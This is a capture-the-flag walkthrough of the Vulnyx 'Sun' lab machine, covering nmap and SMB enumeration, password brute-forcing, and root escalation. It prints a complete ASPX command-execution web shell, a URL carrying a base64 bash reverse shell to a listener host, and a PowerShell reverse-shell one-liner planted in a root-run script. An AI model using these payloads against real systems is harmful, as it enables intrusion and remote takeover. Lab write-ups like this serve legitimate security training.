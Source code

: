 ## FIrst enumeration with nmap 

```shell
# Nmap 7.94SVN scan initiated Sun Apr 14 08:46:48 2024 as: nmap -sC -sV -T4 -oN service.nmap -p 22,80,139,445,8080 -Pn 172.16.246.131
Nmap scan report for 172.16.246.131
Host is up (0.00074s latency).

PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 a9:a8:52:f3:cd:ec:0d:5b:5f:f3:af:5b:3c:db:76:b6 (ECDSA)
|_  256 73:f5:8e:44:0c:b9:0a:e0:e7:31:0c:04:ac:7e:ff:fd (ED25519)
80/tcp   open  http        nginx 1.22.1
|_http-title: Sun
|_http-server-header: nginx/1.22.1
139/tcp  open  netbios-ssn Samba smbd 4.6.2
445/tcp  open  netbios-ssn Samba smbd 4.6.2
8080/tcp open  http        nginx 1.22.1
|_http-title: Sun
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: nginx/1.22.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: SUN, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
|_clock-skew: -2s
| smb2-time: 
|   date: 2024-04-14T07:47:11
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Apr 14 08:47:13 2024 -- 1 IP address (1 host up) scanned in 25.22 seconds
```


## Enumerating SMB 

```shell
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/Vulnyx/Sun]
└─$ smbclient -L 172.16.246.131 -N 

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        IPC$            IPC       IPC Service (Samba 4.17.12-Debian)
        nobody          Disk      File Upload Path
Reconnecting with SMB1 for workgroup listing.
smbXcli_negprot_smb1_done: No compatible protocol selected by server.
Protocol negotiation to server 172.16.246.131 (for a protocol between NT1 and NT1) failed: NT_STATUS_INVALID_NETWORK_RESPONSE
Unable to connect with SMB1 -- no workgroup available
```
checking for anonymous shares available for us, we can see that the share `nobody`.  

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/1ec4ebf9-36d2-47a6-be72-1786f14f49a4)

found a username `punt4n0` 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/6121381a-0bb4-48aa-9376-48a65067e319)

try to bruteforce the password for the user, 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/eea2fea3-fcb6-4e47-b03d-8a39c07cb20c)

found the password `sunday`. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/743bf7ac-f167-4d6e-b8c7-89748926f5a8)

using the creds gotten to check if we have share access to the shares in smb. we got read,write access to one of the shares

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/c0b95659-f72e-47b7-87fc-56cb072be2f1)

login to download some file and uploaded a file into the share. 

```asp
<%@ Page Language="C#" %>
<%@ Import Namespace="System.Diagnostics" %>

<script runat="server">

protected void Page_Load(object sender, EventArgs e)
{
    string cmd = Request["cmd"];
    
    if (!string.IsNullOrEmpty(cmd))
    {
        ExecuteCommand(cmd);
    }
}

private void ExecuteCommand(string command)
{
    try
    {
        Process proc = new Process();
        proc.StartInfo.FileName = "/bin/bash";
        proc.StartInfo.Arguments = "-c \"" + command + "\"";
        proc.StartInfo.RedirectStandardOutput = true;
        proc.StartInfo.UseShellExecute = false;
        proc.StartInfo.CreateNoWindow = true;
        proc.Start();
        
        string output = proc.StandardOutput.ReadToEnd();
        Response.Write(output);
        proc.WaitForExit();
    }
    catch (Exception ex)
    {
        Response.Write("Error: " + ex.Message);
    }
}

</script>
```
uploading an aspx webshell gotten from a friend. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/0fd4221b-98e5-4f82-83e4-6e0d46b88268)

uploaded it. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/1555c4a2-eebd-474c-bfc3-d5c731d1cf23)

navigating to the shell path `http://172.16.246.131:8080/pwned.aspx?cmd=id`, we triggered RCE. 

```
http://172.16.246.131:8080/pwned.aspx?cmd=echo%20%22L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE3Mi4xNi4yNDYuMS84MCAwPiYx%22%20|%20base64%20-d%20|%20bash
```

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/e6f41763-6dd4-45f7-9a51-0d65d2e86653)

Using the payload above, we spawned a reverse shell.



## Privilege Escalation

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/57dba1c1-2f33-40bd-b3af-6d45b2e960f7)

running pspy, we can see a powershell script running as root. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/a2ec49df-1d98-479f-a594-1196168e6725)

```ps
$LHOST = "172.16.246.1"; $LPORT = 80; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object IO.StreamReader($NetworkStream); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()
```
modified the `service.ps1` script, and wait for 1 min 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/a18829d5-c074-47f5-98df-d78a1fa87217)

got a reverse shell as `root`.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/5b6531cd-9004-4139-a324-c8c2f4ebb23d)

And we are through!!! 
